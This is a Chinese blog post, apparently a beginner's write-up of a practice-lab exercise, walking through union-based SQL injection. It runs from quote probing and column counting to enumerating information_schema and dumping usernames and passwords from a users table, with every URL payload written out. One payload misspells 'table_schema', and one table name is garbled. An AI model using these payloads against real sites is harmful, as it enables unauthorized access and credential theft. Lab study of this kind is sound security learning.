 ```yaml
---
layout: post
title:  "我的SQL（1）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-10
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup
首先注入

>### ?id=1。

Ok。出现Your Login name和Password。

再添加一个单引号。
嗯？！出现sql语句报错，说明存在sql注入，因为没有过滤单引号，所以我们可以用单引号来做文章啦。

接下来，就是猜字段了。

>### ?id=1’ order by 3#

可怕的事出现了。报错了。#没有被编码。香菇。上网找了一下#的URL编码为%23

所以改为

>### ?id=1’ order by 3%23

有显示。试了一下4 。呐报错了。只有三个字段。

接下来就是查询啦啦啦、

>### ?id=1’ union select 1,2,3%23

What？为什么只显示了当`id=1`的东西。What？真让人头大。只好去看源码。

函数`mysql_fetch_array`只被调用了一次，而这个函数只能取得一行行为，也就是说，怎么变它也只能显示第一行的东西。也就是`id=1`。怎么办。让id=1出错？好像能行。

上网一搜。呐id的值通常都是从1开始自增的。我们可以把d设为非正数，浮点数，字符型或字符串都行。

试试?

>### `id=0’ union select 1,2,3%23`

OK！出来了。太棒了。开始真正搞事情了。、

但是只有两行，怎么列出所有的。呐不担心上网一搜什么都能告诉你。

数据库有一个连接函数，常用的是`concat`和`concat_ws`。其中`concat_ws`的第一个参数是连接字符串的分隔符。


>### `?id=0' union select 1,2,concat_ws(char(32,58,32),user(),database(),version())%23`


呐。出来了出来了。第一个是当前用户，当前数据库和版本信息。

知道数据库名了。就去查数据库的表啦。。
（首先说一下`mysql`的数据库`information_schema`，他是系统数据库，安装完就有，记录是当前数据库的数据库，表，列，用户权限等信息，下面说一下常用的几个表

`SCHEMATA`表:储存`mysql`所有数据库的基本信息，包括数据库名，编码类型路径等，`show databases`的结果取之此表。

`TABLES`表:储存`mysql`中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。`show tables from schemaname`的结果取之此表

`COLUMNS`表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是`show columns from schemaname.tablename`的结果取之此表。）

摘自[这里](http://blog.csdn.net/u012763794/article/details/51207833)

介绍完就开干。

>### `?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'%23`


数据库默认显示`limit 0,1`。第一个是`emails`。接着找，用`limit`来偏移。具体如下：


>### `?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 1,1%23`

>### `?id=0’ union select 1,2,table_name from information_schema.tables where table_schema='security' limit 2,1%23`

>### `?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'limit 3,1%23`


分别是`refers`、`uagents`、`users`。

继续


>### `?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 4,1%23`

报错了。只有三个。可以下一步啦。

我们注入当然就只对用户密码有想法啦。所以去爆破`users`哈哈哈、

>### `?id=0' union select 1,2,column_name from information_schema.columns where table_shcema='security' and table_name='users' limit 0,1%23`

不断地偏移。到第四行就报错。也就说有3个字段。

分别是`id`、`username`、`password`

Ok！知道字段就开始获取数据啦。直接`select`出来就好啦。

>### `?id=0' union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23`

得到要得到数据。成功。Yeah！
